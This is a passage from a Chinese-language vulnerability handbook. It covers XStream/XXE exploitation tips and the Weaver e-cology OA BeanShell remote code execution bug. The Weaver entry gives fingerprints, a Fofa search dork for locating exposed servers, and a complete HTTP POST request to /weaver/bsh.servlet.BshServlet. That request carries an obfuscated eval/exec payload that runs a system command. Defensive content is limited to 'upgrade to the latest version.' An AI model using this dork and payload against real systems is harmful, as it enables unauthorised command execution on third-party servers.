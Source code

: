 **7\. 利用技巧**

1\. 这里 `Xstream` 同样影响很多使用它的开源组件, 比如`Spring`系列

Maven Repository: com.thoughtworks.xstream » xstream » 1.4.10 (Usages)  
[https://mvnrepository.com/artifact/com.thoughtworks.xstream/xstream/1.4.10/usages](https://mvnrepository.com/artifact/com.thoughtworks.xstream/xstream/1.4.10/usages)

2.xml 不仅可以 xxe, 还能反序列化代码执行

2.xxe 漏洞用 `xxer`, 方便快捷

TheTwitchy/xxer: A blind XXE injection callback handler. Uses HTTP and FTP to extract information. Originally written in Ruby by ONsec-Lab.  
[https://github.com/TheTwitchy/xxer](https://github.com/TheTwitchy/xxer)

**8\. 防护方法**

1\. 升级到最新版

泛微 OA Bsh 远程代码执行漏洞
------------------

**1\. 漏洞简介**

2019 年 9 月 17 日泛微 OA 官方更新了一个远程代码执行漏洞补丁, 泛微 e-cology OA 系统的 Java Beanshell 接口可被未授权访问, 攻击者调用该 Beanshell 接口, 可构造特定的 HTTP 请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

**2\. 影响组件**  
泛微 OA

**3\. 漏洞指纹**

`Set-Cookie: ecology_JSessionId=`

`ecology`

`/weaver/bsh.servlet.BshServlet`

**4\. Fofa Dork**

`app="泛微-协同办公OA"`

**5\. 漏洞分析**

泛微 OA E-cology 远程代码执行漏洞原理分析 – FreeBuf 互联网安全新媒体平台  
[https://www.freebuf.com/vuls/215218.html](https://www.freebuf.com/vuls/215218.html)

[https://github.com/beanshell/beanshell](https://github.com/beanshell/beanshell)

[http://beanshell.org/manual/quickstart.html#The\_BeanShell\_GUI](http://beanshell.org/manual/quickstart.html#The_BeanShell_GUI)

**6\. 漏洞利用**

Vulnerability-analysis/0917/weaver-oa/CNVD-2019-32204 at master · myzing00/Vulnerability-analysis  
[https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204](https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204)

```
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: \*/\*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=eval%00("ex"%2b"ec(\\"whoami\\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw


```
